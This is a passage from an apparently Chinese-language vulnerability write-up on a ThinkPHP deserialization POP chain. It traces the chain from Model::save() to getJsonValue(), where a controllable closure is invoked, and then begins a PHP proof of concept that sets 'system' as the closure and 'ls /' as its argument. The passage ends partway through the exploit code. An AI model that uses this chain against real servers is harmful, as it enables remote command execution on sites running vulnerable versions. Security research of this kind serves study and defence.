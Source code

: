 [![](assets/1710900891-6c8026c8fd995e5fbfe2f31a4dfecbd1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304110940-a4152aaa-d9d4-1.png)

通过分析，发现 $closure 和 $value 都可控，得到最后触发点

```plain
protected function getJsonValue($name, $value)
  {
    if (is_null($value)) {
      return $value;
    }

    foreach ($this->withAttr[$name] as $key => $closure) {
      if ($this->jsonAssoc) {
        $value[$key] = $closure($value[$key], $value);
      } else {
        $value->$key = $closure($value->$key, $value);
      }
    }
```

得到一条完整的 POP 链 Model.php => save () =>isEmpty () | updateData () => checkAllowFields () => db () => $this->table . $this->suffix=> 全局搜索 toString () => model\\concern\\Conversion.php => toJson () => toArray () => foreach () => getAttr ($key) => getData ()=> getValue () =>$value => getData ($name) => getRealFieldName () => $fieldName/$data/$value 可控 => 返回 getValue () 方法 => 绕过两个 if 判断 => $this->withAttr 和 $this->json 可控 => getJsonValue () => $this->jsonAssoc => 触发 $closure ($value \[$key\], $value)  
编写 POC

```plain
<?php
namespace think{
    abstract class Model{
        private $lazySave = false;
        private $data = [];
        private $exists = false;
        protected $table;
        private $withAttr = [];
        protected $json = [];
        protected $jsonAssoc = false;
        function __construct($obj = ''){
            $this->lazySave = True;
            $this->data = ['whoami' => ['ls /']];
            $this->exists = True;
            $this->table = $obj;
            $this->withAttr = ['whoami' => ['system']];
            $this->json = ['whoami',['whoami']];
            $this->jsonAssoc = True;
```